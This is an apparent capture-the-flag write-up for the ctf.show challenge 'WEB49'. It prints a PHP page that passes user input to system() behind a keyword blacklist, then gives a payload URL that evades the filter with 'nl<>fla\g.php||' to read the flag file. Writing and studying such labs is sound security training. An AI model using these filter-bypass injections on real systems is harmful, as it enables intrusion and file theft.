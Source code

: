 ## <mark style="color:blue;background-color:orange;">（21）WEB49</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__); 
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



{% hint style="danger" %}
<mark style="color:red;">**在做这一题的时候出现了一个很重要的事情，就是<>/\</>和？一起使用时，不回显，所以我们将？换成/，让<>和/一起使用才能回显**</mark>
{% endhint %}

```php
http://f9d6e425-e707-4e7e-a144-5bb5ed0f2630.challenge.ctf.show/?c=nl<>fla\g.php||
```

